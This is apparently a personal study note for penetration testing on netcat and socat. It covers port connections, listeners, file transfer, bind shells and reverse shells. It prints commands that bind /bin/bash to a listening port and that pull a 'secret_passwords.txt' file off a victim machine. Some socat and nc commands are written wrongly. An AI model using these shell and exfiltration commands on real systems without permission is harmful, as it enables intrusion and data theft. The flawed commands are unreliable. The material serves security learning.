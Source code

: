 # Netcat - The Swiss Army Knife of Network Connections

Definition of what netcat does: A utility which reads and writes data across network connections using TCP or UDP protocols

### Connecting to a TCP or UDP Port

Netcat is an incredible tool used by penetration testers largely because of its ease of use, combined with it's ability to open shells or reverse shells to target machines. 

The tool also allows us to:
1. Connect to a network service manually
2. Check if a port is open
3. Determine the versioning of a service by grabbing its banner

To run a netcat command against a remote host,. all that is needed is:
1. The IP of the machine you are testing
2. The port on which you want to test
3. (Optional) Flags that can be passed to netcat for various additional functionalities. 

An Example:

```bash
nc <ip address> <port>

nc 10.10.10.10 22
```

Some additional information on what netcat can do can be found here:
- https://www.varonis.com/blog/netcat-commands
- https://www.ionos.com/digitalguide/server/tools/netcat/

### LISTENING on a TCP/ UDP Port

One great thing about netcat is that the tool allows you to run netcat as a SERVER (listening for a connection) or a CLIENT (Trying to connect to a remote host). 

In penetration testing, it is common to try to get a remote machine to connect BACK to the machine you are working from. This is because there are often INGRESS firewall rules (Ingress= information coming into a system, EGRESS= Information going OUT of a system) in place that say "Disallow any incoming connections" BUT firewalls typically have no issue with allowing OUTGOING connections as computers are obviously being used to retrieve information from out on the web. 

This makes netcat a handy tool for tricking a user or a program on a computer to send a netcat connection to your machine, where you have set up a netcat listener to open a command shell (if this doesn't make sense, keep reading. It will eventually make sense).

To listen on your local machine with netcat we can run the following (pay attent to the -l flag as that is the flag that tells the computer to listen on a specific port)

```bash
nc -lnvp 4444
```
In this instance the flags each have their own meaning:

- -n : Disable DNS resolution (aka use an IP address as an address instead of a domain name)
- -l : Listen
- -v : Verbose output
- -p : Local port to listen on

In this case the local machine is now listening for connections on port 4444. 

### Transferring files with Netcat

One cool additional functionality of netcat is that we can transfer files with it. 

An example to try out if you have two machines:

1. Run this on your local machine
```bash
nc -nlvp 4444 > bringit.txt
```
2. Run this on your remote machine:
```bash
nc -nv <IP of local machine> 4444 < <filename>
```

At the end of this the file you chose should have transeferred to your local machine. Depending on the sizr, it might take a while. but this is a good technique to use when trying to pull information down from a remote machine that happens to have netcat installed. 

## Remote Admin with Netcat (And Bind Shells)

Netcat has one particular feature that is EXTREMELY useful in a penetration test which is the utilization of the “-e” flag.

The -e flag is used to execute a program AFTER making or receiving a successful connection.

Be aware that this flag is not always available as it is something that can be easily abused by an attacker.

Kali linux will support this flag by default, but if it happens to be available on a remote server you are testing, do not expect to find the same functionality.

So maybe I’ve jumped too far ahead and haven’t explained WHY this is so dangerous. Let’s get an example going:

Consider the cmd.exe executable. Let’s say we ran this command on a remote host:

```bash

Nc -lnvp 4444 -e /bin/bash

```

Wat this is doing is opening a port for connection on port 4444 and so if someone were to send a command to that port like this:

```bash
Nc -nv <remote IP> 4444
```

The person would connect and then immediately be provided a bash shell. At this point, the person who has attached to this port has a shell. AKA you just learned what a bind shell is.

## Reverse Shells

So one thing that turned me around when I was first learning was understanding the difference between a BIND SHELL and a REVERSE SHELL.

Bind Shell: A remote machine (A victim computer or server) is listening on a port that when bound, gives the remote user a shell.
Reverse Shell: You (The attacker) opens a port on your local machine for connection. The attacker then finds a way to make the victm (ie a remote machine) to connect back to your machine. Upon connection, you (the attacker) receive a shell where you can now access the remote machine.

## Socat

Resources to Review:
1. https://medium.com/@paxprajapati/preferring-socat-over-netcat-785fc590a050#:~:text=socat%20can%20make%20you%20communicate,TCP%2C%20TUN%2C%20UDP%2C%20%E2%80%A6
2. https://www.rubyguides.com/2012/07/socat-cheatsheet/

"What makes socat so versatile is the fact that an address can represent a network socket, any file descriptor, a Unix domain datagram or stream socket, TCP and UDP (over both IPv4 and IPv6), SOCKS 4/4a over IPv4/IPv6, SCTP, PTY, datagram and stream sockets, named and unnamed pipes, raw IP sockets, OpenSSL, or on Linux even any arbitrary network device."

Important socat terminology:

1. Addresses: An IP Address the user provides via the command line. 

Socat is a very similar command to netcat but it has added functionalioty and can communicate over a wide variety of protocols. 

How it is similar:

See how you connect with netcat:

```bash
nc <ip address> 443
```

And socat:

```bash
socat - TCP$:<ip address>:443
```

In socat the protocol, options and port number are separated with a comma. 

Apparently root privielges are required to bind on a port below 1024. I did not know this until now but keep that in mind. 

So if you want to open a LISTENER with nc and socat they would look like this:

```bash
sudo nc -lnvp <ip> 80
```

or socat 

```bash
sudo socat TCP4-LISTEN:443 STDOUT
```

Here is another example:

```bash
nc -lp 700 -e /bin/bash
```
It's socat equivalent:

```bash
socat TCP4:LISTEN:700 EXEC:/bin/bash
```


You need to indicate the STDOUT because that is how socat will relay what is being piped to your machine from another machine. 

### Socat File Transfers

Socat is also capable of transferring files just like nc. 

Below are two commands that can be used to transfer a file from one machine to another.

Command # 1 is used to designate which file on a remote machine you would like to transfer. The command sets up a listener on port 443 (like an https serbver) and then specifies the filename of the file to be transferred when connected to (secret_passwords.txt)

1. (Remember this is run on the target/victim machine)
```bash
sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt
```
Command #2 is used here to connect to the machine that ran command #1, and create file "received_secret_passwords.txt"
 
2. 
```bash
socat TCP4:<remote machine>:443 file:received_secret_passwords.txt,create
```



